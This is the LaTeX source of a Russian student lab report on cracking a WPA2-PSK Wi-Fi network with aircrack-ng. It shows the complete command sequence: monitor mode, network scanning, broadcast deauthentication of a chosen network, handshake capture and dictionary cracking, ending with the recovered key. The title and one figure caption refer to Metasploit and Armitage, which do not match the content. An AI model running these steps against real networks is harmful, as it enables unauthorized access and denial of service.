\documentclass[utf8x, 12pt]{G7-32} 


% --------- -------- SETTINGS --------- --------

% --------- Настройки стиля ГОСТ 7-32 --------

% Гипертекстовое оглавление в PDF
\usepackage[
bookmarks=true, colorlinks=true, unicode=true,
urlcolor=black,linkcolor=black, anchorcolor=black,
citecolor=black, menucolor=black, filecolor=black,
]{hyperref}

\usepackage{graphicx}   % Пакет для включения рисунков
\DeclareGraphicsExtensions{.jpg,.pdf,.png}
\geometry{right=20mm}
\geometry{left=30mm}
\usepackage{enumerate}
\setcounter{tocdepth}{3} % Подробность оглавления


% --------- other settings --------
\usepackage{MnSymbol}
%\usepackage{simpsons}
% --------- -------- SETTINGS --------- --------

% LISTINGS
\usepackage{listings}
\usepackage{color}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
  language=bash,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3
}

\begin{document}

\frontmatter 

% --------- -------- TITLE --------- --------

\begin{center} 

\large САНКТ-ПЕТЕРБУРГСИЙ ГОСУДАРСТВЕННЫЙ ПОЛИТЕХНИЧЕСКИЙ УНИВЕРСИТЕТ

\large Кафедра Компьютерных Систем и Программных Технологий \\[5.5cm] 

\huge ОТЧЕТ \\[0.6cm] % название работы, затем отступ 0,6см
\large по лабораторной работе №5\\
\large Тема: <<Инструмент тестов на проникновение Metaspoit>>\\
\large Дисциплина: <<Методы и средства защиты информации>>\\[3.7cm]

\end{center} 

\begin{flushright}
Выполнил: студент гр. 53501/2 \\
Пономарев М.A. \\[1.2cm]


Преподаватель \\
Вылегжанина К.Д.
\end{flushright}


\vfill 

\begin{center} 
\large Санкт-Петербург \\
2015
\end{center} 

\thispagestyle{empty}


% --------- -------- TITLE --------- --------

\thispagestyle{empty}
\setcounter{page}{0}
\tableofcontents
\clearpage
\mainmatter


\chapter{Задание}


\begin{itemize}

	\item Изучение
	\begin{enumerate}
		\item Изучить документацию по основным утилитам пакета --- airmon-ng, airodump-ng, aireplay-ng, aircrack-ng.

		\item Запустить режим мониторинга на беспроводном интерфейсе
		\item Запустить утилиту airodump, изучить формат вывода этой утилиты, форматы файлов, которые она может создавать
	\end{enumerate}	
	
	\item Практическое задание
		\begin{enumerate}
		\item Запустить режим мониторинга на беспроводном интерфейсе

		\item Запустить сбор трафика для получения аутентификационных сообщений
		
		\item Если аутентификаций в сети не происходит в разумный промежуток времени, произвести деаутентификацию одного из клиентов, до тех пор, пока не удастся собрать необходимых для взлома аутентификационных сообщений
		
		 \item Произвести взлом используя словарь паролей
	\end{enumerate}	
\end{itemize}
	
\chapter{Выполнение}

\section{Изучение}

\subsection{Изучить документацию по основным утилитам пакета --- airmon-ng, airodump-ng, aireplay-ng, aircrack-ng}

\begin{enumerate}
	\item Airodump-ng --- программа предназначенная для захвата сырых пакетов протокола 802.11 с последующим их использованием в aircrack-ng. Если к вашему компьютеру подсоединен GPS навигатор то airodump-ng способен отмечать координаты точек на картах
	
	\item Aireplay-ng - Основная функция программы заключается в генерации трафика для последующего использования в aircrack-ng для взлома WEP и WPA-PSK ключей
	
	\item Aircrack-ng --- Взламывает ключи WEP и WPA (Перебор по словарю)
\end{enumerate}


\subsection{Запустить режим мониторинга на беспроводном интерфейсе}

\begin{lstlisting}
root@kali:~# airmon-ng start wlan0

Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!
-e 
PID	Name
2212	NetworkManager
2707	dhclient
3178	wpa_supplicant

Interface	Chipset		Driver

wlan0		Unknown 	rtl8192cu - [phy0]
				(monitor mode enabled on mon1)
mon0		Unknown 	rtl8192cu - [phy0]
\end{lstlisting}

Ввод команды airmon-ng без параметров покажет статус интерфейсов.


Использование:

airmon-ng <start|stop> <interface> [channel]

airmon-ng <check|check kill>

Где:

\begin{itemize}
	\item <start|stop> --- запустить/отключить интерфейс
	\item <interface> --- определяет интерфейс
	\item [channel] --- выбор канала
	\item <check|check kill> --- check покажет все процессы, мешающие Aircrack-ng, а после убить их
\end{itemize}



\subsection{Запустить утилиту airodump, изучить формат вывода этой утилиты}

Запустив интерфейс в режим мониторинга посмотрим, какой трафик у нас идет в сети. Для этого используем Airodump-ng.

\begin{lstlisting}
root@kali:~# airodump-ng mon0

CH 10 ][ Elapsed: 3 mins ][ 2015-06-08 09:46                                  
                                                                               
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                               
 BC:85:56:66:40:8A  -47      389        3    0  11  54e. WPA2 CCMP   PSK  nastr
 00:1F:C6:2A:04:40  -61      311       19    0  11  54   WPA  TKIP   PSK  303  
 00:21:91:0A:1C:BD  -66      323       11    0   1  54e. WPA2 CCMP   PSK  digit
 00:18:F3:EF:DE:B5  -77      382        0    0  11  54   WPA2 TKIP   PSK  KSPT3
 00:1F:C6:42:3F:C1  -97      786       52    0   6  54   WPA2 CCMP   PSK  Lab20
 B8:A3:86:5B:CB:8C  -82      737       60    0   6  54e  WPA2 CCMP   PSK  <leng
 40:01:C6:CE:C7:C0  -67      423      388   11   8  54 . WPA2 TKIP   PSK  KSPT  
 90:F6:52:75:D0:AE  -97       86        1    0   1  54e  OPN              Mikc- 
 00:1E:58:B8:AA:E7  -97       71        5    0   4  54 . WPA2 CCMP   PSK  eda-l 
 C0:4A:00:86:1D:84  -97       15        0    0   6  54e. WPA2 CCMP   PSK  sport
 24:A4:3C:48:0A:6E  -93        8        0    0  11  54e. WPA2 CCMP   PSK  <leng 
 00:1F:33:24:1A:90  -97        3        0    0   6  54e. OPN              DCN  .
                                                                               u
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe      
                                                                                
 (not associated)   C4:6E:1F:25:4E:9C    0    0 - 1      0       55             
 (not associated)   BC:85:56:66:40:89  -47    0 - 1      0       40             
 (not associated)   C4:85:08:7C:C6:A3  -49    0 - 1      0       45  nastroisam.
\end{lstlisting}


airodump-ng - используется для перехвата пакетов исходящих от 802.11 и особенно подходит для сбора WEP IVs для намерением использовать их с Aircrack-ng.
Кроме того, Aircrack-ng записывает несколько файлов, содержащих информацию обо всех точках доступа и клиентах в зоне видимости.


\newpage
\section{Практическое задание}

\subsection{Запустить режим мониторинга на беспроводном интерфейсе}

\begin{lstlisting}
root@kali:~# airmon-ng start wlan0


Found 3 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!
-e 
PID	Name
2192	dhclient
2196	NetworkManager
3091	wpa_supplicant


Interface	Chipset		Driver

wlan0		Unknown 	rtl8192cu - [phy0]
				(monitor mode enabled on mon0)
\end{lstlisting}



\subsection{Сбор трафика}

Команда airodump-ng позволяет захватить весь физически доступный трафик и распознать имена сетей, каналов, точек доступа и клиентов. 

\begin{lstlisting}
airodump-ng mon2

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  
 CIPHER AUTH ESSID                                                                                  
 1C:7E:E5:39:26:F8  -42      162      246   29   4  54e. WPA2 
 CCMP   PSK  18     7C:03:D8:98:4A:5C  -44        1        0    0  
 11  54e  WPA  CCMP   PSK  ROSTE  10:9A:DD:86:FE:15  -65        2        
 0    0  11  54e. WPA2 CCMP   PSK  z46ne  70:62:B8:89:DD:FC  -70        
 2        0    0  10  54e  WPA2 CCMP   PSK  WPlus  E0:CB:
 4E:D2:D9:B9  -71        2        0    0  11  54   WEP  WEP         
 ALTIN 
 08:60:6E:BC:2E:00  -72        1        0    0  11  54e  WPA2 CCMP   PSK  home  
 D4:21:22:17:25:08  -73        2        0    0   7  54e  WPA2 CCMP   PSK  Sidor 
 60:A4:4C:D0:DD:BC  -74      134       45    0   6  54e  WPA2 CCMP   PSK  ASUS  
 00:26:5A:A0:84:84  -78       17        0    0   6  54e. WPA2 CCMP   PSK  leabe 
 10:9A:DD:86:FE:16  -81        1        0    0 149  54e  WPA2 CCMP   PSK  z46ne  
\end{lstlisting}


\begin{figure}[hhh!]
	\begin{center}
		%
\includegraphics[width=6cm]{img/2}
	\end{center}
	\vspace{-5mm}\caption{Взлом по ip с помощью утилиты armitage}
\end{figure}


Выберем в качестве целевой сеть с BSSID 1C:7E:E5:39:26:F8. Теперь можно запустить airodump-ng с параметрами отслеживания именно этой сети. Параметр –write обеспечивает запись трафика в файл с префиксом dump.

\begin{lstlisting}
airodump-ng mon2 --write airdump --bssid 1C:7E:E5:39:26:F8  -c 4

 CH  4 ][ BAT: 1 hour 12 mins ][ Elapsed: 12 s ][ 2015-06-03 20:41 ][ fixed channel mon2: -1    
                                                                                                
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID             
                                                                                                
 1C:7E:E5:39:26:F8  -83 100      137      380   58   4  54e. WPA2 CCMP   PSK  18                 
                                                                                                
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                      
                                                                                                
1C:7E:E5:39:26:F8  C0:18:85:9E:54:0B    0    0e- 1e     0        3                              
1C:7E:E5:39:26:F8  28:9A:FA:42:18:65   18    0e- 1      1        4                               
1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -127    0e- 0e     0      374   
\end{lstlisting}

\subsection{Произведем деаутентификацию}


\begin{lstlisting}
aireplay-ng --ignore-negative-one --deauth 150 
-a 1C:7E:E5:39:26:F8 -h 7C:03:D8:98:4A:5C mon0
The interface MAC (C0:18:85:9E:54:0B) doesn't match the specified MAC (-h).
	ifconfig mon0 hw ether 7C:03:D8:98:4A:5C
21:27:51  Waiting for beacon frame (BSSID: 1C:7E:E5:39:26:F8) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
21:27:51  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:52  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:52  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:53  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
21:27:53  Sending DeAuth to broadcast -- BSSID: [1C:7E:E5:39:26:F8]
\end{lstlisting}


В результате словим пакет handshake:

\begin{lstlisting}
airodump-ng mon0 --bssid 1C:7E:E5:39:26:F8 -c 6 
--write dump --ignore-negative-one
 CH  6 ][ Elapsed: 1 min ][ 2015-06-03 21:30 ][ WPA handshake: 1C:7E:E5:39:26:F
                                                                               
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E
                                                                               
 1C:7E:E5:39:26:F8  -47 100      880      791    4   4  54e. WPA2 CCMP   PSK  11
                                                                               
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes     
                                                                               
 1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -32    0e- 1      0      645  18   
\end{lstlisting}



\subsection{Подбор пароля с помощью словаря}

\begin{lstlisting}
aircrack-ng dump-05.cap -w English.dic 
Opening dump-05.cap
Read 20931 packets.

   #  BSSID              ESSID                     Encryption

   1  1C:7E:E5:39:26:F8  18                        WPA (1 handshake)

Choosing first network as target.

Opening dump-05.cap
Reading packets, please wait...

                                 Aircrack-ng 1.1


                   [00:01:51] 91444 keys tested (845.44 k/s)


                         KEY FOUND! [ execombat112 ]


      Master Key     : CB A9 50 ED 43 34 9F 6E C1 CD 22 48 71 3C 21 F3 
                       7D 11 CE BF 37 E0 B4 62 CE 4B EC 03 32 DB 47 B1 

      Transient Key  : 9B 6F B4 1A E5 6C E0 96 13 BD CB 53 47 F5 E6 AE 
                       74 18 DC B4 6B 74 CE AF CD 52 B1 E8 A3 00 73 B8 
                       43 D3 84 3B C2 74 7C 4E BE 74 3B A5 80 5D 4F 92 
                       25 8C 45 86 45 97 1A 41 E6 58 18 9E 94 FE 1C BB 

      EAPOL HMAC     : 23 38 A3 41 34 98 88 00 4C 73 54 67 39 E9 DB 87 
\end{lstlisting}

\chapter{Выводы}

В ходе данной работы были изучены основные возможности пакеты Air Crack и принципы взлома WPA/WPA2 PSK. Данный инструмент позволяет прослушивать пакеты, генерировать новые и на основе handshake осуществлять взлом пароля сети. Следует отметить, что пароли, отвечающие требованиям не представляется возможном взломать, так как единственный возможный вариант --- это перебор паролей. Таким образом, нельзя сказать, что протокол WPA уязвим на данный момент. С другой стороны, гораздо большей проблемой является возможность деаутентифицировать пользователя любой сети. Данная возможность открывает возможность атаки с целью отказа в обслуживании.

В общем случае, следует отметить, что защита беспроводных сетей непростая задача и в качестве меры для базового обеспечения безопасности не следует использовать протокол WEP и простые пароли.

\end{document}
